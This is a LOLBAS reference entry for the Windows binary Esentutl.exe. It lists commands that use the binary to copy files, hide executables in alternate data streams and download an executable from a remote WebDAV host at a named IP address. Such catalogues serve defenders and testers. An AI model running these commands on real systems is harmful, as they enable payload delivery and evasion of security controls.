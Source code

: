 # UPDATE BOOKMARKS - PROJECT MOVED TO A DEDICATED PROJECT SITE. THIS SITE WILL NOT BE UPDATED ANYMORE, BUT WILL BE KEPT FOR HISTORICAL REASONS.
New site: https://github.com/LOLBAS-Project/LOLBAS
Web portal: https://lolbas-project.github.io/ 
## Esentutl.exe

* Functions: Copy, Download, Write ADS, Read ADS

```
esentutl.exe /y C:\folder\sourcefile.vbs /d C:\folder\destfile.vbs /o     
     
esentutl.exe /y C:\ADS\file.exe /d c:\ADS\file.txt:file.exe /o     
     
esentutl.exe /y C:\ADS\file.txt:file.exe /d c:\ADS\file.exe /o     
     
esentutl.exe /y \\82.221.113.85\webdav\file.exe /d c:\ADS\file.txt:file.exe /o     

esentutl.exe /y \\82.221.113.85\webdav\file.exe /d c:\ADS\file.exe /o     

esentutl.exe /y \\live.sysinternals.com\tools\adrestore.exe /d \\otherwebdavserver\webdav\adrestore.exe /o     
```

Acknowledgements:
* egre55 - @egre55

Code sample:
* 

Resources:
* https://twitter.com/egre55/status/985994639202283520

Full path:
```
c:\windows\system32\esentutl.exe
c:\windows\sysWOW64\esentutl.exe
```

Notes:



 
